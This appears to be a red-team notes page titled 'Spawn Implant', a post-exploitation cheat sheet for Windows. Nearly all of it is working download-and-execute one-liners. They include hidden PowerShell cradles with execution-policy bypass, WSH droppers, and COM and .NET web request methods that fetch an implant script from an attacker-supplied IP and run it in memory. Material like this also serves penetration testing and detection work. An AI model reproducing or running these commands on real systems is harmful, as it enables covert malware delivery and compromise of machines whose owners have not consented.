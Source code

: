 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - living-off-the-land
  - windows
---
```

# Spawn Implant

## 01 - Command Prompt

### 1.1 - Execute Powershell Commands

System32 is for 32-bit powershell payloads

```
C:\Windows\system32\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/implant.ps1')"
```

SysWOW64 is for 64-bit powershell payloads

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/shell.ps1')"
```

### 1.2 - WSH scripts droppers

When deploying reverse shells as droppers or toolings with the following formats.

```
C:\> wscript.exe <script.js | script.vbs>

C:\> cscript.exe <script.js | script.vbs | script.cs>
```

## 02 - Powershell

### 2.1 - Cmdlets

#### 2.1.1 - `Invoke-RestMethod`

```
PS C:\> IEX (Invoke-RestMethod "http[s]://<IP>[:<PORT>]/implant.ps1)
```

#### 2.1.2 - `Invoke-WebRequest`

```
PS C:\> Invoke-WebRequest http[s]://<IP>[:<PORT>]/implant.ps1 | iex
```

Internet Explorer backwards compatibility.

```
PS C:\> Invoke-WebRequest https[s]://<IP>[:<PORT>]/implant.ps1 -UseBasicParsing | IEX
```

### 2.2 - Powershell Objects

#### 2.1.1 - `DownloadString`

```
PS C:\> iex (New-Object Net.WebClient).DownloadString('http[s]://<IP>:<PORT>/implant.ps1')
```

#### 2.1.2 - `DownloadData`

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadData('http[s]://<IP>[:<PORT>]/implant.ps1'); $implant = [System.Text.Encoding]::ASCII.GetString($data); IEX $implant
```

#### 2.1.3 - `OpenRead`

```powershell
PS C:\> IEX (New-Object System.IO.StreamReader ((New-Object Net.Webclient).OpenRead('http[s]://<IP>:<PORT>/implant.ps1'))).ReadToEnd()

PS C:\> $read = (New-Object Net.Webclient).OpenRead('http[s]://<IP>[:<PORT>]/implant.ps1'); $reader = New-Object System.IO.StreamReader $read; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.1.4 - `XmlDocument`

An XML file.

```xml
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>PS C:\> IEX ([System.Text.Encoding]::Unicode.GetString(([Convert]::FromBase64String('<base64_encoded>'))))</execute>
   </a>
  </command>
#>
```

How to execute it.

```powershell
PS C:\> $xmldata = New-Object System.Xml.XmlDocument; $xmldata.Load('http[s]://<IP>[:<PORT>]/implant.xml'); IEX ($xmldata.command.a.execute)
```

### 2.3 - COM Objects

#### 2.3.1 - `Msxml2.XMLHTTP`

```powershell
PS C:\> $http = New-Object -ComObject Msxml2.XMLHTTP; $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('F6D90F16-9C73-11D3-B32E-00C04F990BB4')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.2 - `InternetExplorer.Application`

```powershell
PS C:\> $iexplorer = New-Object -ComObject InternetExplorer.Application; $iexplorer.visible = $False; $iexplorer.navigate('http[s]://<IP>[:<PORT>]/implant.ps1'); Start-Sleep 5; $response = $iexplorer.Document.body.innerHTML; $iexplorer.quit(); IEX $response

$iexplorer = [activator]::CreateInstance([type]::GetTypeFromCLSID('0002DF01-0000-0000-C000-000000000046')); $iexplorer.visible = $False; $iexplorer.navigate('http[s]://<IP>[:<PORT>]/implant.ps1'); Start-Sleep 5; $response = $iexplorer.Document.body.innerHTML; $iexplorer.quit(); IEX $response
```

#### 2.3.3 - `WinHttp` (not proxy aware)

```powershell
PS C:\> $http = New-Object -com WinHttp.WinHttpRequest.5.1; $http.open('GET','http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.4 - `Word.Application`

```powershell
PS C:\> $DCOMWord = New-Object -ComObject Word.Application; While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } $DCOMWord.Visible = $False; $document = $DCOMWord.Documents.Open('http[s]://<IP>[:<PORT>]/implant.ps1'); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } IEX $document.Content.Text; $DCOMWord.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMWord)

PS C:\> $DCOMWord = [activator]::CreateInstance([type]::GetTypeFromCLSID('000209FF-0000-0000-C000-000000000046')); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } $DCOMWord.Visible = $False; $document = $DCOMWord.Documents.Open('http[s]://<IP>[:<PORT>]/implant.ps1'); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } IEX $document.Content.Text; $DCOMWord.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMWord)
```

#### 2.3.5 - `Excel.Application`

```powershell
PS C:\> $DCOMExcel = New-Object -ComObject Excel.Application; While($DCOMExcel.Busy) { Start-Sleep -Seconds 1 } $DCOMExcel.DisplayAlerts=$False; $Null = $DCOMExcel.Workbooks.Open('http[s]://<IP>[:<PORT>]/implant.ps1'); While($DCOMExcel.Busy) { Start-Sleep -Seconds 1 } IEX (($DCOMExcel.Sheets.Item(1).Range("A1:N"+$DCOMExcel.Sheets.Item(1).UsedRange.Rows.Count).Value2|?{(Variable _).Value})-Join"`n"); $DCOMExcel.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMExcel)
```

### 2.4 - .NET

#### 2.4.1 - `WebRequest`

```powershell
PS C:\> $webrequest = [System.Net.WebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $webrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.4.2 - `HttpWebRequest`

```powershell
PS C:\> $httpwebrequest = [System.Net.HttpWebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $httpwebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.4.3 - `FileWebRequest`

```powershell
PS C:\> $filewebrequest = [System.Net.FileWebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $filewebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.4.4 - `FtpWebRequest`

```powershell
PS C:\> $ftpwebrequest = [System.Net.FtpWebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $ftpwebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $output = $reader.ReadToEnd(); IEX $output
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/0xG - Processes AND Services AND Software/Discover Programs/Manual/Living off the Land|Living off the Land: Discover Programs]]

- [[Web Delivery|Metasploit: Web Drive-by]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Protocols/SMB|Linux Samba Server]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Windows/Network Protocols/SMB|SMB]]

- [[WebDAV]]

- [[4shared]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/02 - Security Endpoints/Windows/Microsoft/Applocker/CSC/C2 Frameworks|Applocker Defense Evasion: Metasploit]]

## Hacktricks

- [Hacktricks: Shells - Windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)

### Hacking Articles

- [Hacking Articles: Windows Exploitation MSBuild](https://www.hackingarticles.in/windows-exploitation-msbuild/)

### Red Team Notes

- [Red Team Notes: Using MSBuild to Execute Shellcode in C#](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

### SS64

- [SS64: Powershell](https://ss64.com/ps/powershell.html)